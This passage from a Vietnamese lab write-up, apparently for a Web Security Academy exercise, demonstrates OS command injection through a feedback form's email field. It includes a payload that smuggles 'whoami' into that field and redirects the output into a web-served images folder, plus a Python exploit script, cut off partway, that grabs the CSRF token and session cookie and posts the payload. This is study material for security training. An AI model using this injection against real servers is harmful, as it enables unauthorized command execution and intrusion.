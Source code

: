 Sau đó ta sẽ thay đổi nội dung email với payload sau:

```
email=abc%40gmail.com;whoami>/var/www/images/whoami${IFS}||${IFS}
```

<li>Lệnh whoami>/var/www/images/output.txt là một lệnh dòng lệnh trong hệ điều hành Unix/Linux, được sử dụng để ghi đầu ra của lệnh whoami vào tệp tin có đường dẫn /var/www/images/whoami</li>

![image](https://hackmd.io/_uploads/rJILz25KT.png)

<li>Mình sẽ bắt URL khác của 1 file hình ảnh và sửa filename thành whoami</li>

![image](https://hackmd.io/_uploads/SJuTf39Kp.png)

<li>Truy cập đường dẫn load ảnh với filename=whoami, lúc này nội dùng file /var/www/images/whoami được trả về.
</li>

![image](https://hackmd.io/_uploads/B1eM72qFp.png)

mình đã viết lại script khai thác

```python=
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup

url = 'https://0aa600da03273e0b8096b7b000ff0037.web-security-academy.net'

# session = requests.Session()

res = requests.get(
    url + '/feedback',
    verify=False,
)

soup = BeautifulSoup(res.text, 'html.parser')
session = res.cookies.get('session')
csrf_token = soup.find('input', {'name': 'csrf'})['value']
print("session: ", session)
print("csrf: ", csrf_token)

cookies = {
    'session': session,
}

data = {
    'csrf': csrf_token,
    'name': 'cuong',
    'email': 'abc%40gmail.com;whoami>/var/www/images/whoami${IFS}||${IFS}',
    'subject': 'abc',
    'message': 'abc',
}

response = requests.post(
    url + '/feedback/submit',
    cookies=cookies,
    data=data,
    verify=False,
)

params = {
```